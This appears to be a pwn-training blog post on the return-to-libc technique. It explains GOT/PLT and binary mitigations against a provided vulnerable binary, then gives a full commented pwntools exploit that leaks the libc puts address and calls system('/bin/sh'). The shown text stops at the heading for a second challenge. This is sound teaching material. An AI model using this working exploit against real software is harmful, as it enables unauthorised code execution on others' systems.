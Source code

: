 ```yaml
---
layout: post
author: tourpran
title: Return to libc
categories: pwn-training
tags: ["libc leak", "ret2libc"]
---
```


![](/assets/images/pwntraining3/pwntrain1.png)

### Introduction:

In this blog we will be trying to leak a libc address and try to get a shell by calling system. Here we will look into 2 challenges with similar attacks but slight variations.

### Challenge 1:

Here we are given a binary and the source for the binary.

[vuln binary](/assets/images/pwntraining3/ret2libc) and 
[vuln c code](/assets/images/pwntraining3/ret2libc.c)

### Solution:

#### Mitigations: 

Lets check out the mitigations for this program.
```bash
checksec --file ./ret2libc
```

![](/assets/images/pwntraining3/pwntrain2.png)

If you don't have checksec installed then 
```bash
sudo apt install checksec
```

RELRO:
* Partial RELRO - the got is writeable, nothing much to bother here.


CANARY:
* No canary, we can do a overflow peacefully :)

No eXecute:
* NX Enabled - this makes sure that the code on the stack is not excecuted.


PIE:
* PIE Disabled, we know the address of all the code in the binary.

#### Code walkthrough:

main function: 

![](/assets/images/pwntraining3/pwntrain3.png)

Its simple and easy, just overflow the buffer with garbage value and fill the return with... with... wait... with what ? Since there is no win function as such what exactly will we do ? Can we somehow get a shell by leaking something ? Lets look at the idea behind this challenge.

#### Global Offset Table:

This challenge requires you to know the basics of GOT and PLT. In short GOT is a set of address that points to the function in the glibc (shared library). To know more about [Global offset table go ahead to my old blog](https://tourpran.me/blogs/2020/09/13/got-plt.html). 

#### Exploit Idea:

Our aim right now, is to leak an address in the libc (shared library). The reason is because we are not given any helper funciton in our program to get a shell, so we use the function in the libc called system with arguments "/bin/sh" to get a shell.

&#8594; We can use the puts function since its already called by our program, so the GOT of this function will be resolved ( real address pointing to libc will be filled ).

&#8594; puts function takes one input which is the string to be printed. What if we can call puts with puts ?  :thinking:

#### Pseudo code:

**note**: arguments to functions are stored via registers, the first argument is stored in RDI.

```.
"A"*(offset) + p64(address of pop RDI) +  p64(GOT address of puts) + p64(PLT address of puts) + p64(address of main)
```

This code will fill the buffer with garbage and store the GOT address of puts inside the RDI register and then calls puts, this will leak the puts libc address. 

* Now we have the libc puts address.
* All functions and variables in the libc is relative to one another, libc as a whole might change its position but the elements (functions, variables) will be at the same relative distance from one another.
* we can calculate the address of string "/bin/sh" and the address of system function, then we can call the system with the argument to pop a shell.

**note:** You might face a error in the statement movabs. If you encounter this problem, you can rectify it by adding a return instruction before the call to a glibc function, Since adding a return address will make the RSP 16 byte aligned.

#### Exploit:

In real life situation you are not probably using the same libc as the software dev, So to find out the libc version go to [libc.blukat.me](https://libc.blukat.me/).

So always the last 3 digits (hex) of the leak will be same. Use this as an advantage to select your libc version.

![](/assets/images/pwntraining3/pwntrain4.png)

Below is the commented solution. 

```py
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
exe = './ret2libc'
elf = ELF("./ret2libc")

# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)


# ./exploit.py GDB
gdbscript = '''
b* 0x00000000004011c7
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

p = start()

p.recvuntil("Are you in?") # recv the output sent by the program.
p.sendline(b"A"*0x60 + b"B"*8 + p64(0x0000000000401016) +  p64(0x000000000040122b) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym.main))
# filling the buffer and RBP + return instruction to tackle the alignment issues + pop RDI to fill it with address of the puts function. add main to return back to main function
p.recvline() # recv unwanted bytes.
leak_puts =hex( u64((p.recvline().rstrip()).ljust(8, b"\x00"))) # recv the puts function and strip the front and back, unpack it and store it as hex.

log.info("puts: "+str(leak_puts)) # make sure you get a address in the libc by logging it.

p.recvuntil("Are you in?") # recv output.
p.sendline(b"B"*0x60 + b"C"*8 + p64(0x000000000040122b) + p64(int(leak_puts, 16) + 0x13000a) + p64(int(leak_puts, 16)-0x32190))
# fill garbage in buffer and pop RDI to fill it with a pointer to "bin/sh" call system.

p.interactive()

```

### Challenge 2